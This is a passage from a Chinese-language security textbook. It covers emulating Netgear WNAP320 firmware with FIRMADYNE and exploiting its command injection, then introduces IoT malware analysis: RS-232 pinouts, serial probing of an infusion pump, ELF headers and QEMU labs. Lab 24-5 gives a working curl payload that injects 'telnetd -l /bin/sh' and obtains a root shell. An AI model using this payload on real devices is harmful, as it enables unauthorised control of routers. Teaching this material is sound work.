firmadyne@ubuntu:~$ git clone --recursive \
> https://github.com/firmadyne/firmadyne.git
firmadyne@ubuntu:~$ git clone https://github.com/devttys0/binwalk.git
Cloning into 'binwalk'...
remote: Counting objects: 7413, done.
remote: Compressing objects: 100% (22/22), done.
remote: Total 7413 (delta 6), reused 15 (delta 3), pack-reused 7387
Receiving objects: 100% (7413/7413), 43.68 MiB | 3.62 MiB/s, done.
Resolving deltas: 100% (4265/4265), done.
Checking connectivity... done.
firmadyne@ubuntu:~$ cd binwalk/
firmadyne@ubuntu:~$ sudo ./deps.sh
<output skipped for brevity>
Continue [y/N]? y
<output skipped for brevity>
firmadyne@ubuntu:~/binwalk$ sudo python ./setup.py install
firmadyne@ubuntu:~/binwalk$ sudo apt-get install python-lzma
firmadyne@ubuntu:~/binwalk$ sudo -H pip install \
> git+https://github.com/ahupp/python-magic
firmadyne@ubuntu:~/binwalk$ sudo -H pip install \
> git+https://github.com/sviehb/jefferson .
firmadyne@ubuntu:~/firmadyne$ git clone https://github.com/firmadyne/sasquatch.git
firmadyne@ubuntu:~/firmadyne$ cd sasquatch/; make; sudo make install
```

接下来，安装 PostgreSQL 数据库：

```
firmadyne@ubuntu:~$ sudo apt-get install postgresql
```

然后，设置用户 firmadyne，密码为“firmadyne”（出现提示时）：

```
firmadyne@ubuntu:~$ sudo -u postgres createuser -P firmadyne
Enter password for new role:
Enter it again:
```

现在，创建数据库并对其进行初始化。请注意，firmware 追加到下一条命令的末尾：

```
firmadyne@ubuntu:~$ sudo -u postgres createdb -O firmadyne firmware
firmadyne@ubuntu:~$ sudo -u postgres psql -d firmware < \
> ./firmadyne/database/schema
CREATE TABLE
ALTER TABLE
CREATE SEQUENCE
ALTER TABLE
<output skipped for brevity>
```

下载 FIRMADYNE 的预构建二进制文件（或使用 FIRMADYNE GitHub 上的说明构建二进制文件）：

```
firmadyne@ubuntu:~$ cd ~
firmadyne@ubuntu:~$ cd ./firmadyne; ./download.sh
Downloading binaries...
Downloading kernel 2.6.32 (MIPS)...
--2017-11-26 20:15:27--  https://github.com/firmadyne/kernel-
v2.6.32/releases/download/v1.0/vmlinux.mipsel
Resolving github.com (github.com)... 192.30.253.113, 192.30.253.112,
192.30.253.113
Connecting to github.com (github.com)|192.30.253.113|:443... connected.
<output skipped for brevity>
```

现在安装 QEMU：

```
firmadyne@ubuntu:~/firmadyne$ sudo apt-get install qemu-system-arm \
> qemu-system-mips qemu-system-x86 qemu-utils
Reading package lists... Done
Building dependency tree
Reading state information... Done
The following additional packages will be installed:
<output skipped for brevity>
Do you want to continue? [Y/n] y
<output skipped for brevity>
```

最后，将 firmadyne.config 文件中的 FIRMWARE_DIR 变量设置为 firmadyne 文件的位置：

```
firmadyne@ubuntu:~/firmadyne$ sed -i \
> 's#/vagrant/firmadyne#/firmadyne/firmadyne#' firmadyne.config
firmadyne@ubuntu:~/firmadyne$ sed -i 's/#FIRMWARE_DIR/FIRMWARE_DIR/' \
> firmadyne.config
firmadyne@ubuntu:~/firmadyne$ head firmadyne.config
#!/bin/sh

# uncomment and specify full path to FIRMADYNE repository
FIRMWARE_DIR=/home/firmadyne/firmadyne/

# specify full paths to other directories
BINARY_DIR=${FIRMWARE_DIR}/binaries/
TARBALL_DIR=${FIRMWARE_DIR}/images/
SCRATCH_DIR=${FIRMWARE_DIR}/scratch/
SCRIPT_DIR=${FIRMWARE_DIR}/scripts/
<truncated for brevity>
```

#### 实验 24-4：模拟固件

既然您已经设置好了环境，可以模拟一个示例固件（同样，如 FIRMADYNE GitHub 上所述）。

首先，使用提取器脚本提取固件：

```
firmadyne@ubuntu:~/firmadyne$ wget -r \
http://www.downloads.netgear.com/files/GDC/WNAP320/WNAP320%20Firmware%20Version%202.0.3.zip
firmadyne@ubuntu:~/firmadyne$ ./sources/extractor/extractor.py -b Netgear \
> -sql 127.0.0.1 -np -nk "WNAP320 Firmware Version 2.0.3.zip" images
>> Database Image ID: 1
```

```
/home/firmadyne/firmadyne/WNAP320 Firmware Version 2.0.3.zip
>> MD5: 51eddc7046d77a752ca4b39fbda50aff
>> Tag: 1
>> Temp: /tmp/tmpUVsRC8
<output skipped for brevity>
>> Skipping: completed!
>> Cleaning up /tmp/tmpUVsRC8...
```

现在，您可以使用 getArch 脚本获取架构并将其存储到数据库中（出现提示时输入 firmadyne 数据库密码，即“firmadyne”）：

```
firmadyne@ubuntu:~/firmadyne$ ./scripts/getArch.sh ./images/1.tar.gz
./bin/busybox: mipseb
Password for user firmadyne:
```

现在，将提取的文件系统位置存储到数据库中：

```
firmadyne@ubuntu:~/firmadyne$ ./scripts/tar2db.py -i 1 -f ./images/1.tar.gz
```

接下来，使用 makeImage 脚本创建用于 QEMU 启动的虚拟镜像：

```
firmadyne@ubuntu:~/firmadyne$ sudo ./scripts/makeImage.sh 1
```

然后，推断网络（此命令将运行最多 60 秒，请耐心等待）：

```
firmadyne@ubuntu:~/firmadyne$ ./scripts/inferNetwork.sh 1
Querying database for architecture... Password for user firmadyne:
mipseb
Running firmware 1: terminating after 60 secs...
main-loop: WARNING: I/O thread spun for 1000 iterations
qemu-system-mips: terminating on signal 2 from pid 23713
Inferring network...
Interfaces: [('brtrunk', '192.168.0.100')]
Done!
```

既然您知道 IP 是什么，运行模拟器：

```
firmadyne@ubuntu:~/firmadyne$ ./scratch/1/run.sh
Creating TAP device tap1_0...
Set 'tap1_0' persistent and owned by uid 1000
Bringing up TAP device...
Adding route to 192.168.0.100...
Starting firmware emulation... use Ctrl-a + x to exit
<output skipped for brevity>
```

如果您随时搞砸了前面的命令并想要重置数据库和环境，只需运行以下命令：


firmadyne@ubuntu:~/firmadyne$ psql -d postgres -U firmadyne -h 127.0.0.1 \
> -q -c 'DROP DATABASE "firmware"'
Password for user firmadyne:
firmadyne@ubuntu:~/firmadyne$ sudo -u postgres createdb -O firmadyne firmware
firmadyne@ubuntu:~/firmadyne$ sudo -u postgres psql -d firmware \
> < ./database/schema
firmadyne@ubuntu:~/firmadyne$ sudo rm -rf ./images/*.tar.gz
firmadyne@ubuntu:~/firmadyne$ sudo rm -rf scratch/

此时，固件应作为 tap 设备运行在前述 IP 上。你也应该能够从运行 QEMU 的机器连接到这个虚拟接口。如果你在运行桌面环境（GUI）的机器上工作，这没问题。但是，在我们的例子中，因为我们在没有运行桌面环境的虚拟机中运行 QEMU，如果我们想从另一台主机与该接口交互，就需要想些办法。


注意：为使以下说明正常工作，你的虚拟机必须以 NAT 模式运行。

为此，我们可以使用 Python 编写的 sshuttle⁵ 程序，通过 SSH 将所有网络流量隧道传输到虚拟主机。这样一来，我们就可以像身处虚拟机本地一样访问远程 tap 设备。由于 sshuttle 在 Python 中运行，它适用于 Linux、macOS 和 Windows。

```
$sudo pip install sshuttle
```

现在启动它：

```
$sshuttle --dns -r username@IP_ADDR_OF_REMOTE_SVR -N
```

以下是在 Mac 上的示例：

```
MacBook-Pro:$ sshuttle --dns -r firmadyne@192.168.80.141 -N
firmadyne@192.168.80.141's password:
client: Connected.
```

现在，从运行 sshuttle 的系统打开网页浏览器，尝试连接到该 IP，如下所示。在模拟器启动固件后，你可能需要等待一分钟，以便 Web 服务完全启动。


凭据为 admin/password，可在网上找到。就这样，我们登录到了一个模拟的路由器，如下所示。


如果 Web 浏览器无响应，请检查 sshuttle 应用程序；它可能已崩溃，需要重新启动。

## 实验 24-5：利用固件

到目前为止，我们已在 QEMU 中模拟了 Netgear WNAP320 固件。现在是时候做我们本来要做的事了：利用固件。Dominic Chen 及其团队在该固件中发现了一个命令注入漏洞，该固件运行在 FIRMADYNE 中。让我们测试一下，看看是否可以利用它：

```
firmadyne@ubuntu:~$ nmap 192.168.0.100

Starting Nmap 7.01 ( https://nmap.org ) at 2017-12-10 21:54 EST
Nmap scan report for 192.168.0.100
Host is up (0.0055s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 1.30 seconds
```

```
①firmadyne@ubuntu:~/firmadyne$ curl -L --max-redir 0 -m 5 -s -f -X POST \
> -d "macAddress=000000000000;telnetd -l /bin/sh;&reginfo=1&writeData=Submit" \
http://192.168.0.100/boardDataWW.php
<html>
<head>
<title>Netgear</title>
<style>
<truncated for brevity>
```

```
firmadyne@ubuntu:~/firmadyne$ nmap 192.168.0.100

Starting Nmap 7.01 ( https://nmap.org ) at 2017-12-10 22:00 EST
Nmap scan report for 192.168.0.100
Host is up (0.0022s latency).
Not shown: 996 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
②23/tcp open  telnet
80/tcp open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 2.39 seconds
```

```
firmadyne@ubuntu:~/firmadyne$ telnet 192.168.0.100
Trying 192.168.0.100...
Connected to 192.168.0.100.
Escape character is '^]'.
/home/www # ls
BackupConfig.php   boardDataWW.php   checkSession.php   data.php
header.php           index.php         login_header.php   packetCapture.php
saveTable.php        test.php          tmpl
<truncated for brevity>
/home/www # id
③uid=0(root) gid=0(root)
/home/www #
```

从之前的输出中，你应该注意到，我们已注入一个命令来启动 telnet 服务器。① “telnet -l /bin/sh” 参数在默认端口上启动 telnet 服务器，并将其绑定到 “/bin/sh” shell。nmap 扫描显示，端口 23 现已开放。② 连接到 telnet 后，你会发现用户是 root。③ 虽然这是在模拟固件上完成的，但同样可以在实际固件上实现。此时，攻击者已获得设备的 root 权限，并可能将该设备作为发起网络中其他攻击的跳板。

## 总结

本章演示了从静态和动态两个角度进行漏洞分析。同时也演示了从动态和模拟两个角度利用命令注入攻击。在后一种情况下，你了解到，在不购买硬件设备的情况下，就可以发现漏洞并开发概念验证（PoC）漏洞利用程序。希望使用这些技术，道德黑客能够在嵌入式设备中发现安全漏洞，并以合乎道德的方式披露它们，从而让我们所有人更加安全。

## 进一步阅读

- ARP 欺骗 https://en.wikipedia.org/wiki/ARP_spoofing
- Busybox https://busybox.net
- Craig Heffner 的 Binwalk GitHub，https://github.com/ReFirmLabs/binwalk.
- Craig Heffner 的博客（binwalk 的创建者）http://www.devttys0.com/blog/
- Craig Heffner 的 Firmware Mod Kit GitHub，https://github.com/rampageX/firmware-mod-kit.
- Ettercap https://ettercap.github.io/ettercap
- Firmadyne GitHub https://github.com/firmadyne/firmadyne
- Firmware Mod Kit 前提条件 https://github.com/rampageX/firmware-mod-kit/wiki
- IDA Pro Hex-Rays，https://www.hex-rays.com/products/ida

## 参考文献

1. Bruce Schneier，“嵌入式系统的安全风险”，Schneier on Security，2014 年 1 月 9 日，https://www.schneier.com/blog/archives/2014/01/security_risks_9.html。
2. Craig Heffner，“黑进 Linksys WMB54G，使用 tftp 上传二进制文件”，/DEV/TTYS0，2012 年 7 月 12 日，www.devttys0.com/2012/07/hacking-the-linksys-wmb54g/。
3. Dominic Chen，FIRMADYNE，https://github.com/firmadyne/firmadyne。
4. Dominic Chen，“D-Link/Netgear FIRMADYNE 命令注入/缓冲区溢出”，Packet Storm，2016 年 2 月 26 日，CVE 2016-1555，https://packetstormsecurity.com/files/135956/D-Link-Netgear-FIRMADYNE-Command-Injection-Buffer-Overflow.html。
5. Brian May，“sshuttle：透明代理与 VMS 与 SSH 的交汇”，sshuttle，2017 年 7 月 8 日，http://sshuttle.readthedocs.io/en/stable。

## 抵御 IoT 恶意软件

如前所述（第 22 章），物联网（本章全文中简称为 IoT）预计到 2020 年将超过 200 亿台设备。这些设备将成为我们生活的一部分，无论是在家里、工作中、医院，还是在跑步、洗澡、驾车、看电视，甚至睡觉时。不幸的是，设备数量的激增也为攻击者提供了更多窃取我们信息的选择，而最可怕的是，这可能会让他们对社会造成物理破坏——例如，黑进起搏器并诱发心脏病发作，远程控制汽车并使其加速直至发生碰撞，劫持飞机或船舶，或通过输注泵输送过量药物，仅举几例。

本章将帮助你准备应对针对 IoT 设备的恶意软件，提供工具和技术来剖析在 ARM 或 MIPS 架构上运行的恶意软件，从而检测、阻止并希望防止此类攻击在我们的组织中发生。

本章涵盖以下主题：

- 物理访问 IoT 设备
- 搭建威胁实验室
- 动态分析
- 逆向工程 ARM 和 MIPS 恶意软件

## 物理访问设备

出于许多原因，建议通过串行端口物理访问 IoT 设备：

- 事件响应：设备被感染且内部运行的恶意软件需要分析的场景，但由于设备已被勒索软件劫持，无法通过本地或远程控制台访问该设备。
- 渗透测试：这是最常见的场景，如果设备未安全配置，获得设备控制台的物理访问权限可能会让你获得 root 权限。

第 23 章中的“串行接口”部分对 UART 等串行端口提供了很好的解释，甚至还对 JTAG 接口进行了描述。有关这些主题的更多信息，请参阅该章节。在本章中，我们专注于与 RS-232 串行端口交互，因为它被广泛用于允许多个 IoT 设备进行控制台访问。

## RS-232 概述

我们对 RS-232 串行端口的讨论侧重于事件响应人员或渗透测试人员与串行端口交互所需的信息。要了解 RS-232 的更全面概述，请参阅“进一步阅读”中提供的链接。


本章末尾的章节。

在鼎盛时期，RS-232 是个人计算机的标准通信端口；然而，由于其传输速度低（等其他因素），最终被 USB 技术取代。不过，在物联网领域，它仍然是一种非常常见的通信协议，主要用于为医疗、网络、娱乐和工业设备提供控制台访问。

RS-232 可以同步或异步传输和接收数据，并可以全双工模式运行，双向同时交换数据。数据通过电平传输，逻辑 1（mark）在 –15 至 –3 VDC 之间，逻辑 0（space）在 +3 至 +15 VDC 之间。图 25-1 展示了 RS-232 波形的典型示例；传输以“起始”位（逻辑 0）开始，接着是介于最低有效位（LSB）和最高有效位（MSB）之间的数据位，最后以“停止”位（逻辑 1）结束以表示数据传输完毕。虽然图中未体现，但可以使用或丢弃奇偶校验位来验证数据完整性。最后是波特率，它衡量每秒传输的比特数（bps）。最常见的值标准化为 9600、38400、19200、57600 和 115200 bps。


图 25-1 RS-232 波形示例

## RS-232 引脚定义

最常见的 RS-232 连接器是 DB-9 和 DB-25。在本章中，我们关注 DB-9，因为它是物联网设备上最常见的连接器。在列出引脚定义详细信息之前，了解这些设备的分类非常重要，因为引脚定义是基于设备分类制定的。RS-232 设备有两种类型：数据终端设备（DTE）和数据电路终止设备（DCE）。通常，DTE 连接到计算机，DCE 连接到调制解调器。然而，调制解调器现在已经不那么常见了。因此，识别你面对的是 DCE 还是 DTE 的最佳方法是测量发送引脚的电压，在 DB-9 中，该引脚可以是引脚 3 或引脚 2。如果在引脚 3 上测得 –15 至 –3 VDC 之间的电压，则该设备为 DTE。如果在引脚 2 上测得该电压，则你面对的是 DCE 设备。

为什么要识别设备是 DCE 还是 DTE 很重要？因为引脚定义不同，如图 25-2 所示。请注意引脚 2 和 3 之间的差异，因为错误的连接会导致串口无法通信。

| DTE 引脚定义 | DCE 引脚定义 |
|---|---|
| 1 DCD 数据载波检测 | 1 DCD 数据载波检测 |
| 2 RxD 接收数据 | 2 TxD 发送数据 |
| 3 TxD 发送数据 | 3 RxD 接收数据 |
| 4 DTR 数据终端就绪 | 4 DSR 数据设备就绪 |
| 5 GND 信号地 | 5 GND 信号地 |
| 6 DSR 数据设备就绪 | 6 DTR 数据终端就绪 |
| 7 RTS 发送请求 | 7 CTS 发送允许 |
| 8 CTS 发送允许 | 8 RTS 发送请求 |
| 9 RI 响铃指示 | 9 RI 响铃指示 |

图 25-2 DTE 和 DCE DB-9 引脚定义

识别正确的引脚定义对于与物联网设备交互非常重要。练习 25-1 提供了这方面的实践示例。

## 练习 25-1：排查医疗设备 RS-232 端口问题

场景如下：作为一名事件响应人员，你收到一台感染恶意软件的输液泵。你的任务，如果你选择接受的话，是提取内部运行的恶意软件。然而，当你将串口线插入设备以获取控制台访问权限时，即使尝试了不同的波特率，也未收到任何响应。因此，需要进行更详细的分析。以下是处理此类场景的推荐步骤。请记住，在撰写本文时，这是一项涉及真实医疗设备的正在进行的调查，因此我们侧重于处理此类场景所需的知识，而非传授解决方案的全部细节。

## 步骤 1：了解你正在处理的设备

首要步骤是花时间了解你正在处理的硬件和串行协议。通常通过拆解设备、识别相关芯片组，并在互联网上查找所谓的 _数据手册_（即该特定设备的技术规格说明书）来完成。在数据手册中，你需要找到引脚定义（换句话说，芯片组中的引脚是如何使用的）。本练习使用输液泵的 RS-232 板卡。图 25-3 展示了设备正面（左侧）和板卡本身（右侧）。此时，你对板卡还一无所知。你可以看到它有一个 RJ-45 连接器，通常用于以太网通信，在图的右侧可以看到整个板卡及其元件。


图 25-3 提取的串行设备

如果你刚进入硬件分析领域，因此不熟悉板卡上嵌入的芯片组，可以买一个便宜的放大镜，以便轻松看到芯片上的小号码。然后你可以开始搜索这些号码；通常，你会找到关于该硬件用途的大量信息，例如它是否仅仅是 SDRAM、微控制器、现场可编程门阵列（FPGA），或者（如我们的情况所示）串行接口。建议放大镜自带夹子，因为特别是当你需要将东西焊接到印刷电路板（PCB）上时，由于所需的精度，你需要双手空闲。图 25-4 展示了使用放大镜将此设备识别为 Maxim MAX3227E。


图 25-4 通过放大镜观察设备

在互联网上快速搜索后，在 www.ti.com/lit/ds/symlink/max3227e.pdf 处找到了数据手册。仅通过阅读描述“3-V 至 5.5-V 单通道 RS-232 线路驱动器/接收器”，就可以清楚地看出你已找到串行端口，并且它使用的是标准 RS-232 端口，这意味着 RJ-45 插口不是用于以太网通信。现在，准备一杯咖啡，准备好阅读整个规格说明，因为从总体上了解该设备的工作原理非常重要。出于本练习的目的，你需要识别引脚定义的描述。你想要找到的是用于发送数据、接收数据和接地的引脚。

## 步骤 2：映射设备引脚

现在你已识别出数据手册，需要了解 MAX3227E 的引脚定义。图 25-5 显示了从数据手册中摘录的引脚定义。

### DB 封装（顶视图）

| 引脚 | 名称 | 引脚 | 名称 |
|---|---|---|---|
| 1 | READY | 16 | FORCEOFF |
| 2 | C1+ | 15 | Vcc |
| 3 | V+ | 14 | GND |
| 4 | C1- | 13 | DOUT |
| 5 | C2+ | 12 | FORCEOEN |
| 6 | C2- | 11 | DIN |
| 7 | V- | 10 | INVALID |
| 8 | RIN | 9 | ROUT |

图 25-5 MAX3227E 引脚定义

数据手册第 3 页提供了引脚的描述。你关注的是以下内容：

- GND (14) 接地
- RIN (8) RS-232 接收器输入
- DOUT (13) RS-232 驱动器输出

既然你知道了与设备交互所需的引脚，是时候制作跳线了。你需要识别对应的 RJ-45 引脚，通常按电缆颜色而非引脚编号更容易。以下是完成此操作所需的步骤：

- 1. 拿一根标准以太网线（即你通常用来连接计算机的那种），剪断它，以便能够单独接触每根线芯。
- 2. 将 RJ-45 连接器插入嵌入 MAX3227E 芯片的设备中。
- 3. 获取一个万用表并进行连通性测试，具体步骤如下：
    - a. 将旋钮转到连通性测试模式（看起来像 Wi-Fi 图标）。
    - b. 接触黑色和红色测试探笔，确保能听到声音。
    - c. 在放大镜的帮助下，将一根测试探笔接触 MAX3227E 上的引脚 14（接地）。
    - d. 使用第二根测试探笔，开始接触以太网线的每根线芯，直到听到声音。记下线芯的颜色。通常，线芯是单色的


蓝色，但请务必再次检查。

- 对引脚 8 (RIN) 和引脚 13 (DOUT) 重复相同的过程。

映射结果如下表所示：

| MAX3227E 芯片引脚 | RJ-45 电缆 |
|---|---|
| GND (8) | 纯蓝色 |
| RIN (8) | 白/棕色 |
| DOUT (13) | 白/蓝色 |

至此，您已制作好跳线，可用于理解来自输液泵的 RS-232 通信。现在您需要处理通信的另一端，即 PC，它将使用其 DB-9 端口。因此，您只需将先前识别的电缆与相应的 DB-9 读取、发送和接地引脚进行映射，即可完成！

如您所记得，在每次 RS-232 通信中，您都需要识别 DCE 和 DTE 组件。因此，您的笔记本电脑将充当 DTE，输液泵充当 DCE。这一点很重要，因为您将使用 DTE 引脚定义（请参阅图 25-2）通过 RJ-45 与输液泵进行接口。下表提供了最终配置。

| PC: RS-232 (DTE) | 输液泵: RJ-45 电缆 (DCE) |
|---|---|
| GND (5) | GND (8) 纯蓝色 |
| RxD (2) | RIN (8) 白/棕色 |
| TxD (3) | DOUT (13) 白/蓝色 |

最后，现在所有映射都已完成，是时候按照图 25-6 所示连接所有组件了。最终配置如下：


输液泵 RS-232 (MAX3227E) <-> 跳线 <-> RS-232 (DB-9 连接器分路器)

双向（公头和母头）DB-9 接口对于这些任务非常实用，因为它允许您轻松操作每一根电缆。这些设备称为“DB-9 连接器分路器”，可在许多五金店以合理价格（低于 30 美元）购买。

## 第 3 步：与输液泵的串行端口进行接口

现在是时候检查输液泵中是否一切正常了，因此请将 RS-232 PCB 放回医疗设备中，按照图 25-6 所示连接所有电缆，并使用 DB-9 公头转 USB 电缆连接到笔记本电脑。您可以在图 25-7 中看到最终设置。


图 25-7 输液泵最终测试

在尚未打开输液泵且 USB 电缆已插入笔记本电脑的情况下，在 VirtualBox 上启动 Ubuntu 虚拟机 (VM) 以便从串行端口读取数据。您需要将 USB 设备附加到 VM，操作方法是进入菜单 设备 | USB | FTDI FT232R USB UART [0600]。

根据您使用的 USB 设备，设备名称会有所不同，但经验法则是始终在列表中查找之前未见过的新设备。

现在您需要通过执行 `lsusb` 命令来确保 Ubuntu 已识别 USB 设备。输出应显示您在上一步菜单中看到的设备，以及系统中已存在的其他设备。示例如下：

```
XpL0iT:~$ lsusb
Bus 001 Device 004: ID 0403:6001 Future Technology Devices International, Ltd
FT232 USB-Serial (UART) IC
Bus 001 Device 002: ID 80ee:0021 VirtualBox USB Tablet
Bus 001 Device 001: ID 1d6b:0001 Linux Foundation 1.1 root hub
```

既然您知道 USB 设备已连接到 Ubuntu 系统，那么根据您使用的客户端，有多种方式可以与其交互。以下是三种识别 USB 的方法：

```
@XpL0iT:~$ ls /dev/ttyUSB0
@XpL0iT:~$ ls /dev/serial/by-path/pci-0000\:00\:06.0-usb-0\:2\:1.0-port0
@XpL0iT:~$ ls /dev/serial/by-id/usb-FTDI_FT232R_USB_UART_A104WBLI-if00-port0
```

看起来您的生产测试已准备就绪。但是，您仍然不知道串行通信配置（换句话说，波特率、奇偶校验位和停止位的值）。解决此问题有三种方法。最简单的方法是查找有关该设备的技术手册并尝试找到这些参数。第二个选项是暴力破解数值，直到找到正确的数值。这应该很快，因为可用波特率只有大约 5 种。最后一个选项是使用逻辑分析仪。您可以将此设备视为串行端口的嗅探器。它可以识别发送的脉冲并测量所谓的“脉冲之间的频率”，这最终可以帮助您识别波特率。它还有助于识别串行端口的发送和接收引脚，就像本练习中一样。如果您注意到，只有 RJ-45 连接器中的两根电缆用于此目的。推荐为此任务使用 Saleae 逻辑分析仪，尽管它很昂贵。在本练习中，使用了逻辑分析仪来识别参数。

让我们创建一个快速脚本来读取串行端口并查看结果。您可以使用 Python 的“serial”模块来完成此操作。以下是串行端口读取示例。您可以看到，我们使用“/dev/ttyUSB0”设备与端口交互，并使用 57600 的波特率，该波特率来自逻辑分析仪：

```
if __name__ == "__main__":
    port = '/dev/ttyUSB0'
    ser = serial.Serial(port,
                        baudrate=57600,
                        bytesize=serial.EIGHTBITS,
                        parity=serial.PARITY_NONE,
                        stopbits=serial.STOPBITS_ONE,
                        rtscts=False,
                        dsrdtr=False,
                        xonxoff=False,
                        timeout=0,
                        # Blocking writes
                        writeTimeout=None)

tlast = time.time()
lined = False
mysum = 0
while True:
    c = ser.read(1)
    print binascii.hexlify(c)
```

运行此脚本并打开输液泵，看看是否能获取数据。瞧！您开始接收数据——实际上，每 2 秒发送相同的数据，这看起来像是心跳或同步数据。这确认您已正确识别接收引脚！在图 25-8 中，您可以看到刚才运行的测试说明。


图 25-8 从输液泵串行端口接收数据

发送引脚呢？您需要查看是否可以发送数据并获得响应。归根结底，如果您想要——抱歉，与输液泵交互——您需要能够通过串行端口发送数据。

要发送数据，您只需使用以下代码行。您还需要将接收到的相同数据发回给泵，以查看是否得到不同的结果：

```
ser.write( '\xffd\x00\x00\xfb\x7d\xfc' )
```

再次成功！在图 25-9 中，您可以看到在向端口发送一些字节后，您收到了不同的响应 ('\xfd\x90\x00\x8d\xc\x16')，这证实了两点：一、您的发送引脚工作正常；二、输液泵根据发送的数据做出不同的反应。


图 25-9 向输液泵串行端口传输数据

此时，我应该感谢 John McMaster 的巨大贡献！他的经验和设备对本练习来说无价之宝。此外，感谢 Zingbox, Inc. 对这类工作的支持（即，主动尝试识别医疗设备问题并与受影响的供应商合作）。遗憾的是，由于这是一项正在进行的调查，我们目前无法发布更多细节。但是，在此阶段，仅仅是关于理解串行数据包、玩弄或模糊测试它们，以查看是否能实现意外行为。如果您对该设备的最新发现感兴趣，请访问 https://ics-cert.us-cert.gov/advisories/ICSMA-17-017-02A。

## 搭建威胁实验室

传统恶意软件在 Windows 环境中运行，沙箱和虚拟机等工具已经对这些系统提供透明支持。但是，在处理 IoT 恶意软件时，会涉及两种远未实现透明支持的不同架构。这两种架构是 ARM 和 MIPS，在本节中，我们将讨论在我们所谓的“威胁实验室”中模拟这些环境的多种选项。作为快速概述，以下是针对 ARM 和 MIPS 架构让系统运行起来的不同方式：

- 使用 QEMU（“Quick Emulator”的缩写）。QEMU 是一款开源机器模拟器和虚拟化器。这是模拟 ARM 和 MIPS 架构最常用的方法，对于恶意软件分析非常方便，因为可以使用快照来避免对硬盘进行永久更改。
- 使用 BeagleBone 或 Raspberry Pi 等开发平台。虽然不推荐用于恶意软件分析，但有时您需要在真实环境中运行恶意软件。好消息是，如果需要，这些开发板始终可以重新烧录。
- 使用 Cuckoo 沙箱等沙箱。Cuckoo 可以定制以运行 ARM 和 MIPS，因为在幕后，它使用 QEMU 进行模拟。但是，结果仍然有限，远不及在 Linux 环境中获得的详细信息，尤其是在进程执行指标方面。此外，不支持 Volatility 插件。尽管如此，仍值得提及 https://linux.huntingmalware.com/ 团队所做的努力，他们成功使 Cuckoo 可用。

在下一节中，我们将使用 QEMU 进行模拟，因为它是模拟最稳定、最成熟的平台。

## ARM 和 MIPS 概述

在开始探索 ARM 和 MIPS 之前，让我们快速了解这些架构是什么以及它们如何工作。ARM 和 MIPS 是精简指令集计算机 (RISC)，其指令集架构 (ISA) 具有一组属性，使其能够实现较低的每条指令周期数 (CPI) 和低工作电压。这降低了能耗，使这些架构能够运行在小型设备上（所谓的嵌入式设备），例如带有 Wi-Fi 功能的腕带或带有 Bluetooth 连接功能的指环。这种架构不同于 x86 处理器使用的复杂指令集计算 (CISC)，x86 处理器常见于日常使用的 Windows 和 macOS X 笔记本电脑中。这些 RISC 架构支持 32 位和 64 位版本。

ARM 提供了一种名为 Thumb 的 16 位指令集，它基本上是 32 位指令集的压缩表示，实时解压缩，从而减小代码大小，直接影响应用性能。

虽然这两种架构通常用于游戏机（例如任天堂和索尼的游戏机）以及路由器和住宅网络设备等网络设备中，


网关，主要区别在于：ARM 是移动设备的首选架构，也是 BeagleBone 和 Raspberry Pi 等开发板中最常受支持的架构。

尽管二进制文件采用 ELF Linux 二进制格式封装，但二进制文件的头部将描述机器和目标文件类型。图 25-10 显示了 ELF 头部。要完全理解整个结构，请参阅“进一步阅读”部分中 CMU 提供的详细描述。

```
#define EI_NIDENT 16
typedef struct {
    unsigned char e_ident[EI_NIDENT];
    Elf32_Half e_type;
    Elf32_Half e_machine;
    Elf32_Word e_version;
    Elf32_Addr e_entry;
    Elf32_Off e_phoff;
    Elf32_Off e_shoff;
    Elf32_Word e_flags;
    Elf32_Half e_ehsize;
    Elf32_Half e_phentsize;
    Elf32_Half e_phnum;
    Elf32_Half e_shentsize;
    Elf32_Half e_shnum;
    Elf32_Half e_shstrndx;
} Elf32_Ehdr;
```

图 25-10 ELF 二进制头部

通过查看头部，可以看到 e_ident 成员（大小为 16 字节）的前 4 个字节表示魔数 \x7F\x45\x4c\x46，这在所有架构中始终相同。但是，在这 16 字节之后，e_type（2 字节）和 e_machine（2 字节）显示正在加载的对象类型。我们感兴趣的是数字 2，它对应可执行文件，以及机器类型，ARM 对应 0x28，MIPS 对应 0x08。在图 25-11 中，可以清晰地看到这一点；如果查看偏移量 16（0x10 十六进制），可以看到刚才描述的字段。

```
#hexdump -C armel |head -n 2
00000000  7f 45 4c 46 01 01 01 00  00 00 00 00 00 00 00 00  |.ELF............|
00000010  02 00 28 00 01 00 00 00  f1 0e 01 00 34 00 00 00  |..(..........4..|
#hexdump -C mips-lsb |head -n 2
00000000  7f 45 4c 46 01 01 01 00  00 00 00 00 00 00 00 00  |.ELF............|
00000010  02 00 08 00 01 00 00 00  60 02 40 00 34 00 00 00  |....@.@..4..|
```

图 25-11 ELF 头部机器标识

另外，重要的是要理解这些架构可以支持不同的指令集。例如，ARMEL 支持 ARMv4 版本（主要用于兼容性问题），ARMHF 支持 ARMv7 平台（用于最新技术）。字节序也很重要，以便正确执行二进制文件；MIPS 支持大端序，MIPSel 支持小端序。

后续章节将针对这些架构提供更具体的详细信息，同时我们将深入探讨其内部机制。

## Lab 25-1：使用 QEMU 设置系统

要复现本实验室，需要满足以下要求：

- 物理 PC 本实验室中称为 P-PC，可以是你的 Windows、Linux 或 macOS X 机器，其中将安装 VirtualBox。
- VirtualBox 上的 Ubuntu 16.04 本实验室中称为 Ubuntu-VM，这是将安装 QEMU 以模拟 IoT 设备的机器。
- QEMU ARM/MIPS 本实验室中称为 QEMU-Guest，这些是模拟 ARM 和 MIPS 环境的机器。
- VNC 客户端 用于在 QEMU-Guest 启动期间连接到 Ubuntu-VM（可选）。

互联网上有多个网站描述了如何运行 ARM 和 MIPS。经过多次尝试，我们在 https://people.debian.org/%7Eaurel32/qemu/ 找到了一个针对 ARM 和 MIPS 的预构建 VM 优秀存储库（感谢 Aurelien Jarno 上传这些镜像）。

如图 25-12 所示的存储库所示，多个目录代表受支持的架构，每个目录内列出了所有必要的文件和命令行。

### /~aurel32/qemu 索引

| 名称 | 最后修改 | 大小 | 描述 |
| :--- | :--- | :--- | :--- |
| 父目录 | | - | |
| amd64/ | 2014-01-06 18:29 | - | |
| armel/ | 2014-01-06 18:29 | - | |
| armhf/ | 2014-01-06 18:29 | - | |
